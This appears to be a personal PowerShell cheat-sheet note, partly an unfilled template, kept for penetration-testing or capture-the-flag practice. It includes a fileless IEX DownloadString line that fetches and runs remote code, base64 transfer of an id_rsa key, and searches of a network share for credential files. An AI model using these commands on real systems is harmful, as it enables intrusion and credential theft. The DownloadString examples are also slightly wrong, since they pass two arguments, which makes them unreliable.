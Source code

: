 # Powershell

_What this tool does and when I reach for it_

## Primary Use Cases

Main things I use this tool for

## Command Patterns

Decode base64 to file
```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa",[Convert]::FromBase64String("base64 conten"))
```
^decode-base64-to-file

```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
^encode-file-contents-to-base64

Get file MD5 hash
```powershell
Get-FileHash <file> -Algorithm md5 | Select Hash
```
^get-file-md5-hash

```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```
^downloadfile-method

```powershell
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>','<Output File Name>')
# or
(New-Object Net.WebClient).DownloadString('<Target File URL>','<Output File Name>') | IEX
```
^downloadstring-method-fileless

```powershell
Invoke-WebRequest <Target File URL> -OutFile <Output File Name> -UseBasicParsing
```
^outfile-invoke-webrequest


### Category 2

**Get-ChildItem** is the PowerShell equivalent of dir
```powershell
Get-ChildItem \\192.168.220.129\Finance\
```

can also be used to find how many files are in the shared folder and their sub-directories
```powershell
(Get-ChildItem -File -Recurse | Measure-Object).Count
```

**-Include** can be used to search for specific files
```powershell
Get-ChildItem -Recurse -Path N:\ -Include *cred* -File
```

**Select-String** is the PowerShell equivalent of grep or findstr, using regular expressions to search for text patterns in files
```powershell
Get-ChildItem -Recurse -Path N:\ | Select-String "cred" -List
```

**New-PSDrive** is the PowerShell equivalent of net use
```powershell
New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem"
```

New-PSDrive can be used with credentials using a **PSCredential** object.
```powershell
$username = 'plaintext'
$password = 'Password123'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem" -Credential $cred
```

### Category 3

Brief description of this category

command syntax ^powershell-category3

## Syntax I Forget

- Flag or option I always look up
- Parameter format I can't remember
- Output options or file formats

## When I Use This vs Alternatives

- **Use this tool when:** Specific circumstances
- **Use alternative when:** When other tools are better
- **Combines well with:** Tools that work together with this

## Personal Notes

- Things I learned from experience
- Common mistakes I made
- Environment-specific quirks

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #powershell
SORT file.ctime DESC
LIMIT 5
```

## Quick Links

- [[Primary-Technique]] - Main technique this supports
- [[Secondary-Technique]] - Other technique this supports

#powershell #tool